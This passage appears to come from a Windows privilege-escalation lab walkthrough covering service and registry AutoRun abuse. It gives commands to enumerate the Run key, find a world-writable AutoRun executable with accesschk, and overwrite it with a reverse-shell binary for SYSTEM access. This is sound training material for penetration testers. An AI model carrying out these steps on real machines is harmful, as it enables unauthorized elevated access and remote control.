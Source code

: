 Start nc listener and start the service -> `net start filepermsvc` .

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption><p>5 - nt authority</p></figcaption></figure>

### 5 - Registry Autoruns

Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

#### Detection

Run winPEAS again with applicationsinfo arguments

We see the "program.exe", Everyone has access.

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption><p>1</p></figcaption></figure>

Query the registry for all AutoRun executables:

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`  - we can see the "program.exe" there.

Using accesschk.exe, note that one of the AutoRun executables ("program.exe") is writable by everyone:

`.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

<figure><img src=".gitbook/assets/image (29).png" alt=""><figcaption><p>2</p></figcaption></figure>

Copy the reverse.exe executable and replace the AutoRun executable with it:

`copy reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`
